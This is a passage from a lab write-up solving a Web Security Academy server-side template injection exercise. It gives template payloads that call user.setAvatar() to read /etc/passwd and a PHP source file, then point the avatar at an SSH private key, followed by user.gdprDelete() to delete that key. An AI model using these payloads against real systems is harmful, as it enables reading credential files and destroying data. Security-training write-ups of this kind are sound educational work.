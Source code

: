 2. Execute the deletion:

```text
blog-post-author-display=user.gdprDelete()
```

Result: The file is deleted and lab is solved!

<img width="1902" height="237" alt="image" src="https://github.com/user-attachments/assets/96d7f18a-0fdc-45cb-8683-2732749305db" />

We send this request and refresh the post page that we had commented on to execute the payload and booom! The `/home/carlos/.ssh/id_rsa` file is deleted and the lab is solved!



<img width="1688" height="666" alt="image" src="https://github.com/user-attachments/assets/23764d93-0df5-4bd6-9dfb-9da6c41c9f21" />

### Warning

Don't run:

```text
user.setAvatar('/home/carlos/User.php','image/jpeg')
user.gdprDelete()
```

It will break the lab and force a 20-minute reset.

---

## Solution 2: Web Security Academy’s Solution

1. Proxy traffic and log in. Post a comment.
2. Notice that the preferred name feature is vulnerable to SSTI.
3. Upload an invalid avatar. Observe error message exposing `user.setAvatar()` and `/home/carlos/User.php`.
4. Upload a valid image and comment again.
5. Use:

```text
user.setAvatar('/etc/passwd')
```

6. Error requires MIME type:

```text
user.setAvatar('/etc/passwd','image/jpg')
```

7. View the avatar at `/avatar?avatar=wiener` — confirms file read.
8. Read:

```text
user.setAvatar('/home/carlos/User.php','image/jpg')
```

9. Find `gdprDelete()` in the PHP file.
10. Set target file:

```text
user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
```

11. Execute delete:

```text
user.gdprDelete()
```

Lab solved.


---
